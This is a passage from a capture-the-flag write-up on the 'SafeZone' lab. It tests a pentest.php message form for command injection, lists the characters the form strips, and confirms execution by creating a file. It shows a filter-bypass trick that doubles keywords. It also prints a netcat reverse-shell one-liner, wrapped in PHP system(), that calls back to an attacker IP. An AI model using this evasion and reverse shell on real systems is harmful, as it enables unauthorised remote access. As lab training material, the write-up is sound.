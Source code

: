 There was only one page opened, [pentest.php](http://localhost:8000/pentest.php). 

![pentest.php](/assets/images/2021/07/SafeZone/Pentest.png "pentest.php")

The page requested a message to send to Yash and echoed it back to me. I played with the message for a while, trying to send commands to the server. From what the page returned me, it was clear that many things were stripped out from the message I sent. 

* php
* nc
* (
* )
* &
* \`

For things like php and nc, I found that if I double them, they would not be completely stripped. 

Sending 
```
<?pphphp system('mkfifo /tmp/kirxhbg; nncc 10.13.3.36 4444 0</tmp/kirxhbg | /bbinin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg'); ?>
```

Returned
```
<?php system'mkfifo /tmp/kirxhbg nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>1 rm /tmp/kirxhbg' ?>
```

But I could not do this for single characters like &. And I did not get a reverse shell with this. 

Also, I did not know if the message I was sending was being executed on the server. And if it was, did I need to pass PHP, or Bash commands?

I tried creating a file where I would be able to read it to see if bash commands worked.

I tried sending this message:
```
touch /home/files/test
```

Then looked in files home folder. The file was there. 
```bash
files@safezone:~$ ls -l /home/files
total 4
-rwxrwxrwx 1 root root 112 Jan 29 10:24 pass.txt
-rw-r--r-- 1 yash yash   0 Jul 27 15:53 test
```

Now that I knew that Bash command worked, I used it to copy pentest.php where I would be able to read it. 
